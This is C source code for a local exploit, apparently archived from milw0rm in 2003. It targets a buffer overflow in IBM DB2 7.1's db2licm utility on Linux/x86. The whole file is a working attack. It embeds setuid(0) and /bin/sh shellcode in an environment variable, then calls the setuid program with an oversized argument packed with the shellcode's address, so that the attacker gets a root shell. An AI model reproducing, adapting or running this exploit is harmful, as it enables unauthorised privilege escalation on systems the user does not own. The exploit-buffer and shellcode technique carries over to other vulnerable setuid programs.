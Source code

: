 EXP
---

    /*
        Local Exploit for db2licm
        IBM db2 v 7.1 Linux/x86

        vulnerability researched by
        Juan Manuel Pascual Escriba
        pask at uninet.edu


     */



    char sc[]=
    "\x31\xc0"      /* begin setuid (0) */
    "\x31\xdb"
    "\xb0\x17"
    "\xcd\x80"

    "\xeb\x1f"
    "\x5e"
    "\x89\x76\x08"
    "\x31\xc0"
    "\x88\x46\x07"
    "\x89\x46\x0c"
    "\xb0\x0b"
    "\x89\xf3"
    "\x8d\x4e\x08"
    "\x8d\x56\x0c"
    "\xcd\x80"
    "\x31\xdb"
    "\x89\xd8"
    "\x40"
    "\xcd\x80"
    "\xe8\xdc\xff\xff\xff"
    "/bin/sh";


    #define STACK_TOP_X86 0xC0000000
    #define ALG_MASK 0xfffffff4
    #define ADDR 1000
    #define DB2LICM "/home/db2inst1/sqllib/adm/db2licm"

    #define DFL_ALG 4

    int main(int arc, char **arv){
            char *argv[3];
            char *envp[2];
            unsigned long sc_address, ba=0;
            unsigned char alg = DFL_ALG;
            unsigned long *p;
            unsigned char *q;
            unsigned int i;



            sc_address = STACK_TOP_X86 - 4 - strlen(DB2LICM) - sizeof(sc) - 1;
            printf("shellcode address = 0x%X\n",sc_address);


            if( (sc_address & ALG_MASK) != sc_address ) {
                    ba = sc_address - (sc_address & ALG_MASK);
                    printf("adding %d trailing bytes to backward align Shellcode to 0x%X\n", ba,
    sc_address & ALG_MASK);
                    sc_address = STACK_TOP_X86 - 4 - strlen(DB2LICM) - sizeof(sc) - ba - 1;
                    printf("new shellcode address = 0x%X\n",sc_address);
            }

            envp[0] = (char*)malloc(sizeof(sc)+strlen("pete=")+1+ba);
            q = envp[0];
            strcpy(q,"pete=");
            q += strlen("pete=");
            memcpy(q,sc,sizeof(sc));
            q += sizeof(sc)-1;
            memset(q,'A',ba);
            q += ba;
            *q = 0;
            envp[1] = 0;

            /* build overflowing arvg[2] */


            printf("using alignment = %d in overflow buffer\n",alg);

            argv[0] = DB2LICM;
        argv[1] = "-a";
            argv[2] = (char*)malloc(ADDR*sizeof(unsigned long)+alg+1);
            memset(argv[2],'A',alg);
            p=(unsigned long*)(argv[2]+alg);
            for(i=0;i<ADDR;i++) {
                    *p = sc_address;
                    p++;
            };
            *p = 0;
            argv[3] = 0;

            printf("executing %s ...\n\n",argv[0]);
            execve(argv[0],argv,envp);


    }

    // milw0rm.com [2003-09-27]
